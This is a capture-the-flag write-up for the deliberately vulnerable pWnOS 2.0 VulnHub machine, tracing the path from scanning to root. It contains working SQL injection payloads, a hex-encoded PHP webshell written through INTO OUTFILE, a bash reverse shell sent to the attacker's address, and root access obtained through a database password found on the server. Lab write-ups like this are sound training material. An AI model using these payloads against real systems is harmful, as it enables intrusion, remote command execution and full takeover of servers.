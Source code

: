 ```yaml
---
layout: post
title: VulnHub - PWnOS 2.0
---
```


**Description:** Is a Virutal Machine Image which hosts a server to pratice penetration testing. It will test your ability to exploit the server and contains multiple entry points to reach the goal.

**Author:** pWnOS

**Operating System:** Linux

**Aim:** To get root shell.

**Download:** [https://www.vulnhub.com/entry/pwnos-20-pre-release,34/](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)

## Information Gathering
### Host Discovery

The virtual machine has an static IP address set up, so we must assign an IP in the same addressing range, as shown below: 

```bash
root@kali:~$ ip addr add 10.10.10.200/24 dev vmnet1
```

An scan with arp-scan allowed us to detect the address of our target.

```bash
root@kali:~$ arp-scan -I vmnet1 10.10.10.0/24                                                   
Interface: vmnet1, type: EN10MB, MAC: 00:50:56:c0:00:01, IPv4: 192.168.179.1
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
10.10.10.100    00:0c:29:a3:96:fa       VMware, Inc.
```


### Port Scanning

A full TCP port scan with nmap discovered two open ports.

```bash
root@kali:~$ nmap -n -v -T4 -p- 10.10.10.100 -oG nmap/all-tcp-ports.txt
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Service Enumeration

Service detection and script scanning were performed against the target machine in orer to detect more information about open ports.

```bash
root@kali:~$ nmap -sV -sC -p22,80 -n -v 10.10.10.100 -oN nmap/service-enum.txt
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 85:d3:2b:01:09:42:7b:20:4e:30:03:6d:d1:8f:95:ff (DSA)
|   2048 30:7a:31:9a:1b:b8:17:e7:15:df:89:92:0e:cd:58:28 (RSA)
|_  256 10:12:64:4b:7d:ff:6a:87:37:26:38:b1:44:9f:cf:5e (ECDSA)
80/tcp open  http    Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.17 (Ubuntu)
|_http-title: Welcome to this Site!
```

### Web Enumeration

The web service contains a simple web page with a welcome message.

![](/assets/images/pwnos2/screenshot-1.png)

Running dirsearch allowed other web resources to be discovered.

```bash
root@kali:~$ dirsearch -u http://10.10.10.100/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
...
[18:41:40] Starting: 
[18:41:41] 301 -  311B  - /blog  ->  http://10.10.10.100/blog/
[18:41:41] 200 -    1KB - /login
[18:41:41] 200 -    2KB - /register
[18:41:41] 200 -   50KB - /info
[18:41:44] 200 -  854B  - /index
[18:41:45] 301 -  315B  - /includes  ->  http://10.10.10.100/includes/
[18:42:32] 302 -    0B  - /activate  ->  http://10.10.10.100/index.php
[18:53:38] 403 -  293B  - /server-status
```

In the web page, a form login is vulnerable to SQL Injection, so the login was bypassed.

![](/assets/images/pwnos2/screenshot-2.png)

![](/assets/images/pwnos2/screenshot-3.png)


## Exploitation
### Mysql write privileges

Another interesting way is to try to write content on the server taking advantage of the SQL Injection vulnerability, the following request tries to dump all users of the database and write them to a file called dump in the includes directory.

```bash
' or 1=1 into outfile '/var/www/includes/dump'-- -
```

![](/assets/images/pwnos2/screenshot-4.png)

As we can see the file was written, showing us the only registered user.

```bash
root@kali:~$ curl -s http://10.10.10.100/includes/dump                            
1       Dan     Privett admin@isints.com        c2c4b4e51d9e23c02c15702c136c3e950ba9a4af        0       \N      2011-05-07 17:27:01
```

Now we will try to write a webshell on the server, for that we need to know the column numbers.

First we must intercept the login request and send it to **Intruder**, we choose the attack type "sniper", and highlight the parameter to test.

![](/assets/images/pwnos2/screenshot-5.png)

Set the payload type to "Numbers", in **Payload Options** we choose numbers from 1 to 10, as shown in the following screenshot.

![](/assets/images/pwnos2/screenshot-6.png)

Then, click on **Start Attack**, as we can see in the following image there are 8 columns.

![](/assets/images/pwnos2/screenshot-7.png)

When trying to enumerate the ninth column the server responds with an error.

![](/assets/images/pwnos2/screenshot-8.png)

Then, we hex encode the webshell.

```bash
root@kali:~$ echo -n "<?php passthru(\$_GET['cmd']); ?>" | xxd -ps | tr -d '\n'; echo
3c3f70687020706173737468727528245f4745545b27636d64275d293b203f3e
```

We use the following SQL statement to write it to the server.

```bash
' and 1=2 union select 0x3c3f70687020706173737468727528245f4745545b27636d64275d293b203f3e,0x20,0x20,0x20,0x20,0x20,0x20,0x20 into outfile '/var/www/includes/z.php'-- -
```

![](/assets/images/pwnos2/screenshot-9.png)

Now we can execute system comands.

```bash
root@kali:~$ curl -s "http://10.10.10.100/includes/z.php?cmd=id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We set up a netcat listener, and run the following curl request.

```bash
root@kali:~$ curl -s "http://10.10.10.100/includes/z.php?cmd=$(urlencode -m '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.10.200/443 0>&1"')"
```

We got a shell as user www-data, and we upgrade it to a TTY shell.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [10.10.10.200] from (UNKNOWN) [10.10.10.100] 52171
bash: no job control in this shell
www-data@web:/var/www/includes$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@web:/var/www/includes$
```

Listing the web server, in the directory /var I found a MySQL connection file.

```bash
www-data@web:/var$ cat mysqli_connect.php
...
DEFINE ('DB_USER', 'root');
DEFINE ('DB_PASSWORD', 'root@ISIntS');
DEFINE ('DB_HOST', 'localhost');
DEFINE ('DB_NAME', 'ch16');
...
```

## Privilege Escalation
### Credential Disclosure

We switch to user root entering the password to connect to MySQL.

```bash
www-data@web:/var$ su -
su -
Password: root@ISIntS

root@web:~#id
id
uid=0(root) gid=0(root) groups=0(root)
```

Also we can access via SSH, since root login is anabled in the SSH configuration file.

```bash
www-data@web:/var$ grep -i 'permitrootlogin' /etc/ssh/sshd_config
grep -i 'permitrootlogin' /etc/ssh/sshd_config
PermitRootLogin yes
```

```bash
root@kali:~$ ssh root@10.10.10.100
root@10.10.10.100's password: 
root@web:~# id
uid=0(root) gid=0(root) groups=0(root)
```
